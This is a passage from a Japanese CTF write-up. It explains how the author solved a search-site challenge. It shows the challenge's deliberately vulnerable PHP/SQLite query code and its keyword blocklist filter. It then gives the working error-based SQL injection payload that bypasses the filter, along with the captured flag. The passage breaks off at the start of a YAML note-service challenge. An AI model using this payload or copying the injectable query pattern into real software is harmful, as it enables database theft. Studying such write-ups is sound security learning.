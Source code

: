 `ngram('hoge')` を渡すと `array('ho', 'og', 'ge')` が返ってくるような関数です。めんどくさそうです。

```php
<?php
if (preg_match('/like|glob|nullif|case|union|sleep|substr|instr|soundex|load/i', $keyword) === 1) {
  exit('WAF～＞＜');
}  
```

SQLi のフィルターです。バイパスは難しそうです。

```php
<?php
$keyword = mb_convert_kana($_GET['q'], 'KVas');
// …
$pdo = new PDO('sqlite:../db/yamatoo.db');
// …
if (mb_strlen($keyword) > 2) {
  $words = implode(' ', ngram($keyword));
  $where = "exists (select 1 from `site_fts` where `site`.rowid = `site_fts`.rowid and `words` match '{$words}') or `title` like '%{$keyword}%'";
} else {
  $where = "`title` like '%{$keyword}%'";
}

$result = $pdo->query("select * from `site` where {$where}");
```

検索部分です。3 文字以上の文字列の場合 `$words` に `implode(' ', ngram($keyword))` が、`{$keyword}` に入力値がそのまま入ります。  
`' or 1 ; --` のように 3 文字以上のトークンがない単純なものならいいんですが、この問題の目的は登録されているすべてのサイトの情報を得ることではなく機密データをのぞき見ることなので、そのためには `$words` で SQLi を狙うのは厳しそうです。  

`SQLite` では、シングルクォートは `''` のように 2 つ重ねることでエスケープすることができます。  
これを利用して `'''` と入力すると、`implode(' ', ngram($keyword))` が `'' '' ''` となり、`match '{$words}'` の部分でクエリが壊れず、また `'%{$keyword}%'` の部分でいい感じに文字列を閉じることができ、SQLi が狙えます。

mage さんのツイートを漁っていると[気になるツイート](https://twitter.com/mage_1868/status/666233304820023296)を見つけました。  
DB によってやり方が異なってそうな SQLi といえば `Error-Based SQLi` です。`sqlite error based` でググると[それっぽい記事](https://rdot.org/forum/showthread.php?p=26419)がヒットしました。

あとは `''' or (select 1 from site_fts where words match char(34)||(select flag from flag));--` を投げるとフラッグが出てきました。

```
flag: 3rR0r_b453d_5Ql_1nj3c710N_50_1Mp0r74n7_d0_n07_F0r637
```

### 参考
- [SQLite 3 error-based injection - RDot](https://rdot.org/forum/showthread.php?p=26419)

## [超文書転送術 400] Yamatonote
自分が投稿したノートしか読めないメモ帳サービス。`yamato` さんのノートをのぞき見る問題です。

とりあえずアクセスしてユーザ登録。`YAML` をアップロードすると、タイトルや本文を読み込んで投稿してくれるという便利機能付きです。  
ソースコードがあるので `YAML` の処理をしている部分を `index.php` から探してみます。
